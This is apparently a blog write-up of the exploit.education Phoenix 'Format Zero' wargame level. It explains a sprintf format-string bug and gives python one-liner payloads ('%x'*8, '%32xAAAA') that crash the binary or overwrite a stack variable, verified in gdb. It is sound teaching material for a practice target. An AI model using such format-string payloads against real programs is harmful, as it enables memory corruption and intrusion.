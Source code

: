 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x0"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Format 0

Write-up for: [https://exploit.education/phoenix/format-zero/](Format Zero)

<!--more-->

The goal is to change the changeme variable of the `locals` struct. Data is read
from stdin to the local `buffer` array. It is properly bounds checked and null-terminated.
Then, data from the `buffer` variable is written to `locals.dest` using `sprintf`.

We can confirm that the read is properly bounds-checked:

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*33' | ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```

# The bug

The usage of sprintf is incorrect:

```C
sprintf(locals.dest, buffer);
```

This call does not make use of format strings (`sprintf(dest, "%s", buffer);`) but directly
uses user input as the format string. Thus, as an attacker, we can provide a string as input
containing format specifiers.

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "%s"*16' | ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Segmentation fault
```

Depending on the format string, this can lead to a crash. Or, in another case:

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "%x"*8' | ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

What happened here?

# Analysis

The length of the user provided buffer does not matter since we can use format string modifiers to
define the length of what is written by `sprintf`. By doing so, we can have user input shorter that 15 characters
but overflow the `dest` buffer by generating a longer string.

To precisely overwrite `changeme` we need our string to have 32 characters of padding and then a 4-byte value 
we want changeme to be.

Let's confirm this theory with gdb. First we need to find out where changeme is stored:

```
0x08048584 <+79>:    mov    DWORD PTR [ebp-0xc],0x0
```

This instruction sets `changeme` to zero. It is located at `ebp-0xc = 0xffffd5ec`. Let's run 
with our payload and look at that word on the stack:

```
(gdb) run < <(python -c 'print "%32xAAAA"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/phoenix/i486/format-zero < <(python -c 'print "%32xAAAA"')

(gdb) x/xw $ebp-0xc
0xffffd5ec:     0x41414141
```

There are our A's. Done :).

